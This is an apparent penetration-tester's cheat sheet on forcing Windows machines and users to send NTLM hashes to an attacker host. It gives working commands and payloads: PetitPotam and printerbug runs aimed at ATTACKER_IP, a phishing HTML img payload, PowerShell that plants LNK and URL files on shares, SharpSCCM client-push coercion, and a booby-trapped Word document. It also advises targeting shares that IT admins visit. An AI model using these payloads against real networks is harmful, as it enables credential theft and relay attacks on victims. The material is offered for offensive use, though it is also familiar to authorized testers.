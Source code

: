 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://github.com/leechristensen/SpoolSample   

**Check Spooler Remotely**   
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## Word Document with Remote Template

In a Word document you can use the target property for a Word Template to insert UNC paths.
1. Create new docx file from a template (choose any built in template, e.g. “Business Letter”)
2. Save the docx and open it with the vim editor
3. Open the containing file `word/_rels/settings.xml.rels`  
4. Change the value of the Target property, so that it points to your listening instance (e.g. Responder) using a UNC path.
5. Save the file and send / provide it to your victim. Once the victim opens the document, the connection is triggered by Word (you should receive the NetNTLMv2 hash of the logged in user)

## PetitPotam
https://github.com/topotam/PetitPotam   
PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\someicon.ico" height="1" width="1" />
</body>
</html>
```

**Outlook**   
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut (LNK Files)
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)

## URL Files
Same as with .lnk files, Internet Shortcuts (.url files) can be used.   
url file example:   
```shell
# cat newshortcut.url
[InternetShortcut]
URL=test
WorkingDirectory=test
IconFile=\\<responder-ip>\harvest\%USERNAME%.icon
IconIndex=1
```
Using PowerShell:   
```powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("c:\users\bob\test\newshortcut.url")
$shortcut.TargetPath = "https://somewebsite"
$shortcut.save()
Add-Content -Path $shortcut.FullName -Value "IconFile=\\<responder-ip>\harvest\%USERNAME%.icon"
Add-Content -Path $shortcut.FullName -Value "IconIndex=1"
```
 
Now find for example a writeable SMB share where you can drop this file and copy the url file to it. (Remember to start Responder on your attacker host)   

Example using smbmap:   
`python3 smbmap.py -u username -p 'secret' -d domain -H <ip of host of smb share> --upload /path/to/your/urlfile 'sharename/newshortcut.url'`   
Now, once someone browses to this share, you should see hashes popping up in your Responder instance.

## MSSQL
If you happen to find an MSSQL instance where you have access (using PowerUpSQL) and you can run either 'xp_fileexist' or 'xp_dirtree', you can try to use those to trigger an authenticated ntlm connection from the SQL service account to e.g. your responder instance.

## SCCM
If you are on a SCCM managed device with a low privileged user, you can force the SCCM service to authenticate.   
Full blog post by SpecterOps: https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a    

**Prerequisites**   
In order for this to work, the configuration of the SCCM has to be set to:   
- Enable automatic site-wide client push installation
- PKI certificates aren't required for client authentication
- Allow connection fallback to NTLM (Which is the default as of Januar 2023 → [Deploy clients to Windows - Configuration Manager ](https://learn.microsoft.com/en-us/mem/configmgr/core/clients/deploy/deploy-clients-to-windows-computers#configure-the-site-to-automatically-use-client-push-for-discovered-computers))

**Exploitation**   
First identify the SCCM siteinfo which provides us with the sitecode, using e.g. the tool "SharpSCCM" ([GitHub - Mayyhem/SharpSCCM: A C# utility for interacting with SCCM](https://github.com/Mayyhem/SharpSCCM) ).

`SharpSCCM.exe local siteinfo`   
Example output: (sitecode is ROO)   
```shell
[ ... ] 
SMS_Authority
--------------------
CurrentManagementPoint: SCCM.domain.local
Name: SMS:ROO
[ ... ]
```
Trigger the connection towards your Responder instance (in the following example, Responder is running on 10.10.10.1):   
`SharpSCCM.exe SCCM.domain.local ROO invoke client-push -t 10.10.10.1`   
After about 10 seconds you should receive two NTLM hashes:   
- The NTLM hash for the SCCM service account
- The NTLM hash of the SCCM machine account (indicated by the $ after the name)

## ADCS 
Certain ADCS vulnerabilities like ESC8 and ESC11 can be used in NTLM relaying attacks.   
Tools like SpoolSample or Dementor can be for example used to coerce a machine account to connect to the attacker machine, which then the attacker can use to enroll certificates in the victim machines name.
Another method used in the ESC11 vulnerability is to relay using the RPC interface of the certificate authority, which is described in the following blog post:   
https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/   
To identify the ESC11 vulnerability, the following fork of the certipy tool has to be used: https://github.com/sploutchy/Certipy

## WebDAV
WebDAV is a file server over HTTP. The service WebClient is present on workstations by default (Not on server OS). This produces an HTTP hash which can be relayed to LDAP.

### Prerequisites
- Requires the system’s NetBIOS name
- Must be in the "local intranet" zone 
- Requires DNS record
  - Either poisoned in the local subnet using Responder
  - Create a DNS A record pointing to an external IP (Check ADIDNS --> https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing or https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)

### Exploitation
**Example Using Fertiliser.exe:**   
Using the tool Fertiliser.exe (GitHub.com/mdsecactivebreach/Farmer) a docx file was updated to contain a malicious field code pointing to the WebDAV server running on Kali (Responder.py instance):   
`.\Fertiliser.exe C:\_Tools\Farmer\Testdoc.docx http://kali/foo "Update required"`   
Once the Word document is opened on the victim client, the connection was initiated and the NTLMv2 hash (Net-NTLMv2) is captured.   
Note: For WebDAV to work, do not use the FQDN, instead the NetBIOS name! Also, for easier cracking of the hash, set the static challenge in Responder.conf to "1122334455667788"!
